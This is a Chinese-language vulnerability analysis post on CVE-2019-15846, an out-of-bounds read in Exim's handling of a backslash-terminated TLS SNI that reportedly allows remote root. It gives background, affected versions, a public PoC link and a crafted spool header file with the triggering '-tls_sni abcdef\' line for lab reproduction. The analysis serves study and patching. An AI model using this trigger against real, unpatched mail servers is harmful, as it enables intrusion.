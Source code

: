 ```yaml
---

layout: post

title: 'CVE-2019-15846-Exim越界读导致远程代码执行漏洞分析'

date: '2019-10-17'

header-img: "img/home-bg.jpg"

tags:
     - 漏洞分析  
author: 'De4dCr0w'

---
```




### 漏洞背景

2019年9月6日18：00，exim发布exim-4.92.2版本修复了CVE-2019-15846，攻击者可以利用此漏洞远程获取root权限。漏洞由qualys发现并报告。

当exim支持TLS时，攻击者发送以'\0'结束的SNI，此时string_unprinting函数调用string_interpret_escape函数处理转义序列，由于string_interpret_escape函数中没有处理'\0'的情况，造成了越界读。qualys已经证实可以利用此漏洞远程获取root权限。

### 影响版本

exim < 4.92.2版本

### 环境搭建

（1）poc 地址：https://github.com/synacktiv/Exim-CVE-2019-15846

将1i7Jgy-0002dD-Pb-D 和1i7Jgy-0002dD-Pb-H 放入/var/spool/exim/input文件夹下，需要root权限。

```
1i7Jgy-0002dD-Pb-H
Debian-exim 103 114
<exim@synacktiv.com>
1568035612 0
-received_time_usec .793865
-helo_name test
-host_address 127.0.0.1.55748
-host_name localhost
-interface_address 127.0.0.1.25
-received_protocol esmtps
-body_linecount 3
-max_received_linelength 25
-tls_cipher TLSv1.3:TLS_AES_256_GCM_SHA384:256
-tls_sni abcdef\
-tls_ourcert -----BEGIN CERTIFICATE-----\nMIICoTCCAYkCFB9pKlofgtm4YdZqmpAaIz42yNqeMA0GCSqGSIb3DQEBCwUAMA0x\nCzAJBgNVBAYTAlVTMB4XDTE5MDkwODE0MTY0M1oXDTIyMDkwNzE0MTY0M1owDTEL\nMAkGA1UEBhMCVVMwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDM5+zK\nYgwwjX/4CMtHI1TZd99Jmiu42785IG0n6APdVWAZ8wKe+h3GEdT2RWgDWJWv/W/i\nTKYFtIMZbZmGaVpA43plWUL0CZ5tta8N88n5vx4Ylo1Ca5kf5tHg3K/mAGfY4w9z\n4RYbGepWS3I3s39aHQBDIrrxRdmdx/uJeD9hRyMmHjyMnK6Gds90KnuWu0yB3Yhk\nsV9uWW/eyHAo2bc0i3ubEVks6LkfL+Csg+x4sPcJIoeMoyIiovlxIgP5i7sTuFTL\ni8XgiRIGkDSHwanI2xOFi5F8yoLPcG2dOhWhHVa6h5KWve0KvNMlA0ZeQ987wpGe\n5aDuQ+4+Qskp2yptAgMBAAEwDQYJKoZIhvcNAQELBQADggEBAJRtTVMtSYqccO6Z\nnISpK1eHeqS7M3ON/iKhbUOvuiezBL818Zf9kx75Y+ql+f1WuSsndFsLRSNQoNjD\npe7w0f1trn49Xr1Hr8sorikWNb9ao45iLb1WvrSahXLwCeldfXV97kPnNESn3QJy\nFSUo8ApZ8LBum8DNd68pW8fKb8eS8ETcR8O3UcI7cUb1Lf+gXSNLhKYlNjzpWsXt\n6hv3LrD8225kds0zVpR9fXdwv+YgNsPJguLBOuSTQqQnC/mXGDGK7NZKvkJN5WgW\nUqRIGuNlLbL22epPGI+rcUX5nctbDQZIX6sAq2eiQtrijdTrgT4HlVMAO88FTzQK\nvidd7Hg=\n-----END CERTIFICATE-----\n
XX
1
exim@synacktiv.com
```